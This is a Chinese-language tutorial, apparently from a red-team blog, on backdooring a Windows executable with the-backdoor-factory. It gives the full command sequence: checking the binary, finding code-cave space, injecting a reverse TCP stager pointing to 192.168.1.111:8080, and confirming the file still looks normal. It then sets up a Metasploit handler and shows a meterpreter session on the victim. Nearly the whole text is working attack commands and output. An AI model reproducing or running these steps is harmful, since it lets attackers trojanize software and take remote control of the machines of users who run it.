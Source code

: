 专注APT攻击与防御
https://micropoor.blogspot.com/

项目地址：
https://github.com/secretsquirrel/the-backdoor-factory

原理：可执行二进制文件中有大量的00，这些00是不包含数据的，将这些数据替换成payload，并且在程序执行的时候，jmp到代码段，来触发payload。

**以项目中的过磅系统为例：**

`root@John:~/Desktop# git clone https://github.com/secretsquirrel/the-backdoor- factory.git  //安装the-backdoor-factory`
![](media/baa5f2ef8bc4b8332d377e179c2897d1.jpg)

`root@John:~/Desktop/the-backdoor-factory# ./backdoor.py -f ~/demo/guobang.exe -S //检测是否支持后门植入`
![](media/65f5db4ee779eaacdff8a20bdfd35ea8.jpg)

`root@John:~/Desktop/the-backdoor-factory# ./backdoor.py -f ~/demo/guobang.exe -c -l 150 //测试裂缝空间size150`
![](media/2b8e42c3fe1195f37bf7b01fb31af21b.jpg)

`root@John:~/Desktop/the-backdoor-factory# ./backdoor.py -f ~/demo/guobang.exe -s show //查看可用payload`
![](media/c576aabd967bcbbf39467dcf40ec2759.jpg)

`root@John:~/Desktop/the-backdoor-factory# ./backdoor.py -f ~/demo/guobang.exe -H 192.168.1.111 -P 8080 -s iat_reverse_tcp_stager_threaded //插入payload，并生成文件。`

![](media/1dbc7c753b5135a67db8ac3bee6f3352.jpg)

`root@John:~/Desktop/the-backdoor-factory# md5sum ./guobang.exe /root/demo/guobang.exe
//对比原文件与生成文件MD5值`
![](media/999c8d02e798b61f61a4d8cd284ffd0b.jpg)

`root@John:~/Desktop/the-backdoor-factory# du -k ./guobang.exe /root/demo/guobang.exe
//对比文件大小`
![](media/edd13750f6b3e03121e63e805b4a5b97.jpg)

```
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp 
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.1.111
lhost => 192.168.1.111
msf exploit(handler) > set lport 8080
lport => 8080
msf exploit(handler) > exploit -j 
//开启本地监听
```
![](media/94330fb03737c7e42549f1b9b3a8bb21.jpg)

//打开软件
![](media/2139e4a1c0c1e326605cf246742ff3a5.jpg)

```
meterpreter > getuid
Server username: John-PC\John 
//确定目标
```
![](media/613afd4b9343cfd43965aa934b71cc48.jpg)

>   Micropoor
